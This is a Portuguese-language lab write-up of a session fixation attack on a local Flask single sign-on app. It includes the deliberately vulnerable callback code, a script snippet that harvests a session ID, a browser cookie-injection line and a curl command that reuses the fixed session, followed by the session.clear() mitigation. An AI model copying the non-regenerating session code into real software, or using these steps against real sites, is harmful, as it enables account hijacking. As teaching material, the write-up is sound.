




# A-09 — Session Fixation after SSO

## Descrição

Session Fixation é um ataque em que o atacante força um session ID conhecido
na sessão da vítima **antes** do login. Quando a vítima autentica, o servidor
associa as credenciais àquele session ID — que o atacante já conhece.
O atacante passa a ter acesso à sessão autenticada sem precisar de saber a password.

O ponto crítico: o servidor **não regenera o session ID após autenticação**.
Se regenerasse, o ID fixado pelo atacante tornava-se inútil.

---

## Pré-requisitos

- SP1 a correr em `http://localhost:5001`
- Attacker Server a correr em `http://localhost:9999`
- `VULN_A09_NO_SESSION_REGEN = True` em `sp1/config.py`
- SP1 a usar sessões server-side (`flask-session` com filesystem backend)

---

## Fluxo do Ataque



---

## Análise do Código

### 1. Flag de controlo — `sp1/config.py`

```python
# True  = sistema VULNERÁVEL
# False = mitigação ATIVA
VULN_A09_NO_SESSION_REGEN = True
```

Esta flag afecta exclusivamente a rota `/callback` — o único momento em que
o session ID deve ser regenerado (antes de escrever dados de autenticação).

---

### 2. Porquê `flask-session` é necessário para o ataque



---

### 3. Configuração das sessões — `sp1/app.py`

```python
app.config["SESSION_TYPE"]            = "filesystem"
app.config["SESSION_FILE_DIR"]        = "./flask_session"
app.config["SESSION_COOKIE_NAME"]     = "sp1_session"
app.config["SESSION_COOKIE_HTTPONLY"] = True
app.config["SESSION_COOKIE_SAMESITE"] = "Lax"
# ↑ Lax permite envio em navegação cross-site (ex: clicar num link do atacante)
# Strict bloquearia — mas está propositadamente em Lax para a demo funcionar
```

---

### 4. Fluxo de decisão no `/callback`



---

### 5. Código do `/callback` — `sp1/app.py`

```python
@app.route("/callback")
def callback():
    token     = oauth.keycloak.authorize_access_token()
    user_info = token.get("userinfo")

    # ---- A-09: Session Fixation ----
    if VULN_A09_NO_SESSION_REGEN:
        # VULNERÁVEL: não faz nada — mantém o session ID actual
        # Se o ID foi fixado pelo atacante, continua a ser o mesmo
        pass
        # session ID antes login:  .eJyrVkrNS87P...  ← controlado pelo atacante
        # session ID depois login: .eJyrVkrNS87P...  ← IGUAL

    else:
        # MITIGADO: apaga a sessão actual e força criação de nova
        session.clear()
        # session ID antes login:  .eJyrVkrNS87P...  ← controlado pelo atacante
        # session ID depois login: .eJyrZkrMS86O...  ← NOVO, aleatório

    # Estes dados são escritos na sessão — seja ela do atacante (VULN) ou nova (MIT)
    session["user"]         = user_info
    session["access_token"] = token.get("access_token")
```

---

### 6. Como o atacante obtém o session ID — `attacks/a09_session_fixation.py`

```python
def get_fresh_session_id():
    """Visita o SP1 sem login — obtém um session ID válido."""
    jar    = http.cookiejar.CookieJar()
    opener = urllib.request.build_opener(
        urllib.request.HTTPCookieProcessor(jar)
    )
    opener.open("http://localhost:5001/")
    # Resposta do SP1:
    # Set-Cookie: sp1_session=.eJyrVkrNS87PLShKLUpVslIqLU4tykvMTQUA...; Path=/

    for cookie in jar:
        if cookie.name == "sp1_session":
            return cookie.value   # ← ID capturado
```

O SP1 cria uma sessão para qualquer visita (incluindo não autenticadas) —
este comportamento do `flask-session` é o que torna o ataque possível.

---

## Passos da Demonstração

### 1. Verificar configuração vulnerável

```python
# sp1/config.py
VULN_A09_NO_SESSION_REGEN = True
```

### 2. Correr o script de ataque

```bash
python attacks/a09_session_fixation.py
```

O script obtém o session ID, mostra o comando JavaScript a injectar
e fica em loop verificando se a sessão ficou autenticada.

### 3. Injectar o cookie no browser da vítima

No browser da vítima, abrir a consola (F12) e executar:

```javascript
document.cookie = "sp1_session=.eJyrVkrNS87PLShKLUpVslIqLU4tykvMTQUA...; path=/";
```

### 4. Vítima faz login

Aceder a `http://localhost:5001` e fazer login com `bob` / `bob123`.

### 5. Script confirma o sucesso

```bash
curl -s http://localhost:5001/dashboard \
     -b "sp1_session=.eJyrVkrNS87PLShKLUpVslIqLU4tykvMTQUA..." \
     -L
```

---

## Mitigação — Análise do Código

```python
# sp1/config.py
VULN_A09_NO_SESSION_REGEN = False
```

**Efeito no `/callback`:**

```python
if VULN_A09_NO_SESSION_REGEN:
    pass   # ← NÃO executado

else:
    session.clear()   # ← EXECUTADO
    # flask-session apaga flask_session/<SID_FIXO> do disco
    # Na próxima escrita cria flask_session/<SID_NOVO>

session["user"] = user_info
# Dados de bob em <SID_NOVO> — o atacante não conhece este ID
```

**Defesas adicionais em camadas:**



**Tabela comparativa:**

| Condição | `VULN=True` | `VULN=False` |
|----------|-------------|--------------|
| Session ID fixado antes do login | ✅ mantido | ❌ destruído e substituído |
| Atacante acede com ID fixado | ✅ sessão autenticada | ❌ sessão vazia |
| SameSite=Strict activo | ❌ não | ✅ sim (mitigação adicional) |

---

## Condições necessárias para o ataque

| Condição | Presente no lab |
|----------|-----------------|
| Sessões server-side com ID no cookie | ✅ `flask-session` filesystem |
| Session ID não regenerado após login | ✅ `VULN_A09 = True` |
| Atacante consegue injectar cookie | ✅ consola F12 / XSS / MITM |

> **Nota:** Sessões client-side (cookie assinado, como o Flask padrão)
> **não são vulneráveis** — o atacante não pode forjar a assinatura criptográfica.
> É por isso que o lab usa `flask-session` com filesystem.

---

## Referências

- [OWASP — Session Fixation](https://owasp.org/www-community/attacks/Session_fixation)
- [CWE-384: Session Fixation](https://cwe.mitre.org/data/definitions/384.html)
- [IETF RFC 6819 — OAuth 2.0 Threat Model — Session Fixation](https://datatracker.ietf.org/doc/html/rfc6819#section-4.6.3)
